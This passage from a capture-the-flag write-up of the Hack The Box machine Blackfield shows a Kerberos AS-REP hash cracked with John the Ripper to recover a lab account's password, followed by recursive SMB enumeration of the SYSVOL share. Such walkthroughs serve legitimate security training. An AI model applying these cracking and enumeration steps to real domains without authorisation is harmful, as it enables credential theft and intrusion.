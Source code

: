 And we got a hash here.

I cracked the hash using John

```nix
root@kali:~/CTF/HTB/Boxes/Blackfield# john --wordlist=/usr/share/wordlists/rockyou.txt kerb.john 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
#00^BlackKnight  ($krb5asrep$23$support@BLACKFIELD.LOCAL)
1g 0:00:00:09 DONE (2020-06-10 09:30) 0.1028g/s 1474Kp/s 1474Kc/s 1474KC/s #1WIF3Y.."chito"
Use the "--show" option to display all of the cracked passwords reliably
Session completed
root@kali:~/CTF/HTB/Boxes/Blackfield# john --show kerb.john 
$krb5asrep$23$support@BLACKFIELD.LOCAL:#00^BlackKnight

1 password hash cracked, 0 left
```

We got the password for `support : #00^BlackKnight`

I tried login with `evil-winrm` but it failed so I decided to go back to SMB 

```nix
root@kali:~/CTF/HTB/Boxes/Blackfield# smbclient //10.10.10.192/SYSVOL -U 'support'
Enter WORKGROUP\support's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 16:43:05 2020
  ..                                  D        0  Sun Feb 23 16:43:05 2020
  BLACKFIELD.local                    D        0  Sun Feb 23 16:43:05 2020
re
		7846143 blocks of size 4096. 4098569 blocks available
smb: \> recurse on
smb: \> ls
  .                                   D        0  Sun Feb 23 16:43:05 2020
  ..                                  D        0  Sun Feb 23 16:43:05 2020
  BLACKFIELD.local                    D        0  Sun Feb 23 16:43:05 2020

\BLACKFIELD.local
  .                                   D        0  Sun Feb 23 16:49:28 2020
  ..                                  D        0  Sun Feb 23 16:49:28 2020
  DfsrPrivate                       DHS        0  Sun Feb 23 16:49:28 2020
  Policies                            D        0  Sun Feb 23 16:43:14 2020
  scripts                             D        0  Sun Feb 23 16:43:05 2020

\BLACKFIELD.local\DfsrPrivate
NT_STATUS_ACCESS_DENIED listing \BLACKFIELD.local\DfsrPrivate\*

\BLACKFIELD.local\Policies
  .                                   D        0  Sun Feb 23 16:43:14 2020
  ..                                  D        0  Sun Feb 23 16:43:14 2020
  {31B2F340-016D-11D2-945F-00C04FB984F9}      D        0  Sun Feb 23 16:43:14 2020
  {6AC1786C-016F-11D2-945F-00C04fB984F9}      D        0  Sun Feb 23 16:43:14 2020

\BLACKFIELD.local\scripts
  .                                   D        0  Sun Feb 23 16:43:05 2020
  ..                                  D        0  Sun Feb 23 16:43:05 2020

\BLACKFIELD.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}
  .                                   D        0  Sun Feb 23 16:43:14 2020
  ..                                  D        0  Sun Feb 23 16:43:14 2020
  GPT.INI                             A       22  Sun Feb 23 16:50:36 2020
  MACHINE                             D        0  Sun Feb 23 16:50:36 2020
```